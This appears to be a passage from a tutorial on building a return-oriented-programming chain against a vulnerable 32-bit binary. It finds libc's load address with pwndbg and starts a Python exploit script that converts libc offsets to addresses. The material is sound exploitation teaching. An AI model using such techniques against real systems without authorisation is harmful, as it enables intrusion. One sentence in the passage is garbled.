 This is a little disappointing, it looks like we are only able to control the unable to control `edx` and `eax` registers with these gadgets. Also, this binary does not contain an `int 0x80` instruction to trigger the write system call.

Even though our target application does not have everything that we hoped for, there is no need to worry! Since this program uses standard library functions, we are guaranteed to have libc in memory. Since libc is in memory, we can just build our chain out of that.

To find gadgets in libc, we first must see which version of libc the binary uses and what address in memory it is loaded at. To do this, I load the program in gdb and use the `libs` command from the [pwndbg](https://github.com/pwndbg/pwndbg) plug-in.

![libs command on vuln](res/libs_command.png)

From the image above, we can see that this binary uses a version of libc that can be found at: `/lib/i386-linux-gnu/libc-2.23.so`. The beginning of this binary is loaded at the offset `0xf7e00000`. We should keep this in mind, because we will need to add this offset to every gadget address in our chain. Let's create a python file with a utility function that converts libc offsets to a string representation of the address in memory:

```python
import sys
import struct 

BUFFER_SIZE = 64
BUFFER_ADDRESS = None
LIBC_ADDRESS = None

# Converts libc offset to address in memory
def libc_addr(addr):
  return struct.pack('<I', addr + LIBC_ADDRESS)


def main():
  global BUFFER_ADDRESS
  global LIBC_ADDRESS

  if (len(sys.argv) != 3):
    print("usage: " + sys.argv[0] + " <buffer_address> <libc_address>")
    exit(-1)

  BUFFER_ADDRESS = int(sys.argv[1], 16)
  LIBC_ADDRESS = int(sys.argv[2], 16) # This will be 0xf7e00000

if __name__ == '__main__':
  main()
```
